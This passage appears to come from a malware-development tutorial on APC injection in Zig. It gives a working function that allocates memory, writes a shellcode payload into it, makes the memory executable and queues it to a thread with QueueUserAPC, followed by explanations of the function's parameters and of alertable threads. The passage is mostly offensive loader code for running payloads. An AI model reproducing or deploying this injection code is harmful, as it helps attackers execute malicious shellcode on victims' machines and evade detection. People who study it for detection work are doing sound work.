 Here's how we use it in our implementation:

```zig
// APC injection function
fn runViaApcInjection(hThread: HANDLE, pPayload: []const u8) bool {
    var dwOldProtection: DWORD = 0;

    // Allocate memory for the payload
    const pAddress = VirtualAlloc(null, pPayload.len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pAddress == null) {
        print("\t[!] VirtualAlloc Failed With Error : {}\n", .{GetLastError()});
        return false;
    }

    // Copy payload to allocated memory
    @memcpy(@as([*]u8, @ptrCast(pAddress))[0..pPayload.len], pPayload);

    print("\t[i] Payload Written To : 0x{X}\n", .{@intFromPtr(pAddress)});

    // Change memory protection to executable
    if (VirtualProtect(pAddress.?, pPayload.len, PAGE_EXECUTE_READWRITE, &dwOldProtection) == 0) {
        print("\t[!] VirtualProtect Failed With Error : {}\n", .{GetLastError()});
        return false;
    }

    waitForEnter("\t[#] Press <Enter> To Run ... ");

    // Queue the APC - this is where the magic happens!
    if (QueueUserAPC(@ptrCast(pAddress), hThread, 0) == 0) {
        print("\t[!] QueueUserAPC Failed With Error : {}\n", .{GetLastError()});
        return false;
    }

    return true;
}
```

**Key Points:**

- `pfnAPC` points to our shellcode (cast as a function pointer)
- `hThread` is either a suspended thread or an alertable thread
- `dwData` can pass parameters to the APC function (we use 0)

## Put A Thread To Alertable State

There are two main approaches to make APC injection work: using alertable threads or suspended threads.

### Using The Functions

Alertable threads are threads that call specific Windows API functions with the alertable flag set to TRUE. These functions will process queued APCs while waiting:
